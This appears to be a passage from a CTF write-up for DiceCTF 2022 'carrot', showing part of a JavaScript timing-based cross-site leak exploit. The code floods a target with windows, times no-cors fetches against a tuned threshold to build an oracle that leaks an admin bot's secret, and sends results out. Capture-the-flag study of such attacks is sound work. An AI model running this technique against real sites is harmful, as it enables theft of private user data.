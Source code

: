 ```html
})
}

async function run(str, resolve) {
// if the request is not enough, we can send more by opening more window
for(let i=1; i<=5;i++) {
window.open(TARGET)
}

let t = 0
const round = 30
setTimeout(async () => {
for(let i=0; i<round; i++) {
let s = performance.now()
await fetch(TARGET + '/?test', {
mode: 'no-cors'
}).catch(err=>1)
let end = performance.now()
t += end - s
console.log(end - s)
}
const avg = t/round
send(str + "," + t + "," + "avg:" + avg)

/*
I get this threshold(1000ms) by trying multiple times on remote admin bot
for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
*/
const isFound = (t >= 1000)
if (isFound) {
inp2.value = "0"
} else {
inp2.value = "1"
}

// remember to delete the post to not break our leak oracle
f2.submit()
setTimeout(() => {
resolve(isFound)
}, 200)
}, 200)
}

</script>

</body>

</html>
```
## DiceCTF 2022 - carrot
